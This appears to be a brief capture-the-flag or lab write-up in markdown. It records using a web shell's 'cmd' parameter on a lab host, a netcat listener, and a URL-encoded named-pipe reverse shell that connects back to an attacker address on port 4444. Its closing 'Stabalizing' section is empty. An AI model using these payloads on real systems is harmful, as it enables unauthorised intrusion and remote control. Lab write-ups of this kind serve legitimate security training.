

## Access

### Steps to reproduce

#### Post-exploitation


- there is a shell command with get parameter 'cmd' in this file!
```
http://10.10.165.221:22/nnxhweOV/index.php?cmd=ls
```

#### Initial Access

```
nc -lvnp 4444
```

- enter in browser:
```
http://10.10.165.221:22/nnxhweOV/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.9.3.63%204444%20%3E%2Ftmp%2Ff
```



#### Stabalizing

```

```